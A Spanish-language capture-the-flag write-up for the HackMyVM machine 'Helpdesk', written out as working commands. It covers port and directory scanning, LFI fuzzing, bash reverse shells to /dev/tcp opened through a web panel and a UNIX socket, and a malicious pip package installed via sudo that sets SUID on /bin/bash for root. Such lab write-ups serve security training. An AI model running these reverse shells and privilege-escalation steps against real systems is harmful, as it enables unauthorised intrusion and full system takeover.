 # Helpdesk - Writeup HackMyVm

El día de hoy veremos cómo resolver la máquina **Helpdesk** de la
plataforma HackMyVm.\
Durante la explotación tocaremos las siguientes técnicas:

-   Escaneo de puertos
-   Enumeración de directorios
-   Fuzzing para descubrir un parámetro PHP
-   LFI (Local File Inclusion)
-   Abuso de sockets UNIX
-   Escalada de privilegios con `pip3`

## Enumeración

Comenzamos con un escaneo de puertos con **nmap**:

``` bash
sudo nmap -p- --open -sSCV --min-rate 5000 -n -Pn 192.168.1.156
```

``` java
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 b4:bc:42:f6:d0:a7:0d:fd:71:01:3d:8a:c5:0c:ac:e3 (ECDSA)
|_  256 71:90:08:58:14:04:09:d5:cf:31:ee:87:17:ad:29:8f (ED25519)
80/tcp open  http    Apache httpd
|_http-server-header: Apache
|_http-title: HelpDesk Ticket System

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

En el puerto 80 se muestra un sistema de HelpDesk muy limitado:

![alt text](./posts/img/helpdesk001.png)

Pasamos a enumerar directorios con **gobuster**:

``` bash
gobuster dir -u http://192.168.1.156/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x php,html -t 20
```

Resultados interesantes:

    /login.php   (Status: 200)
    /ticket.php  (Status: 200)
    /panel.php   (Status: 302 -> login.php)
    /debug.php   (Status: 200)

En `/debug.php` aparecen credenciales falsas (honeypot).\
En `/ticket.php` solo aparece el texto *"Ticket Viewer"* vacío:

![alt text](./posts/img/helpdesk002.png)

Esto sugiere que el archivo podría aceptar parámetros. Probamos fuzzing
con **ffuf**:

``` bash
ffuf -u 'http://192.168.1.156/ticket.php?FUZZ=../../../../../../../../etc/passwd' -w /usr/share/wordlists/SecLists/Discovery/Web-Content/burp-parameter-names.txt -fs 204
```

Encontramos un parámetro vulnerable a **LFI**:

![alt text](./posts/img/helpdesk003.png)

## Explotación

Explorando archivos del sistema vía LFI, en `login.php` encontramos
comentarios con credenciales en texto claro:

![alt text](./posts/img/helpdesk004.png)

Accedemos con ellas en `/login.php` y entramos a `/panel.php`, donde hay
ejecución de comandos:

![alt text](./posts/img/helpdesk005.png)

Nos enviamos una reverse shell:

``` bash
nc -lvnp 9001
```

``` bash
bash -i >& /dev/tcp/192.168.1.152/9001 0>&1
```

``` bash
Ncat: Connection from 192.168.1.156
www-data@helpdesk:/var/www/html$
```

## Escalada de privilegios

En `/opt` encontramos un servicio con **sockets UNIX**:

``` bash
www-data@helpdesk:/opt/helpdesk-socket$ ls -la
-rwxr-xr-x 1 helpdesk helpdesk  158 Aug 16 15:32 handler.sh
srwxrwxrwx 1 helpdesk helpdesk    0 Aug 24 17:38 helpdesk.sock
-rw-r--r-- 1 root     root      184 Aug 16 15:44 serve.sh
```

Podemos enviar comandos al socket con **socat**:

``` bash
echo "id" | socat - UNIX-CONNECT:/opt/helpdesk-socket/helpdesk.sock
```

``` bash
uid=1001(helpdesk) gid=1001(helpdesk) groups=1001(helpdesk)
```

Esto nos permite ejecutar comandos como **helpdesk**.\
Nos mandamos una shell como ese usuario:

``` bash
echo 'bash -i >& /dev/tcp/192.168.1.152/9001 0>&1' | socat - UNIX-CONNECT:/opt/helpdesk-socket/helpdesk.sock
```

``` bash
helpdesk@helpdesk:/$
```

Comprobamos permisos sudo:

``` bash
sudo -l
```

    User helpdesk may run the following commands on helpdesk:
        (ALL) NOPASSWD: /usr/bin/pip3 install --break-system-packages *

Podemos abusar de esto creando un paquete Python malicioso.

### Paquete Malicioso

En la máquina atacante:

``` bash
mkdir -p paquete_malicioso/paquete_malicioso
cd paquete_malicioso
```

``` python
echo 'import os; os.system("chmod +s /bin/bash")' > paquete_malicioso/__init__.py
```

``` python
echo "from setuptools import setup, find_packages; setup(name='paquete_malicioso', version='0.1.0', packages=find_packages())" > setup.py
```

``` bash
python3 setup.py sdist
python3 -m http.server 8000
```

En la víctima:

``` bash
wget http://192.168.1.152:8000/dist/paquete_malicioso-0.1.0.tar.gz
sudo /usr/bin/pip3 install --break-system-packages ./paquete_malicioso-0.1.0.tar.gz
```

Esto le da el bit SUID a `/bin/bash`.\
Ejecutamos:

``` bash
bash -p
```

¡Y somos root! 🎉

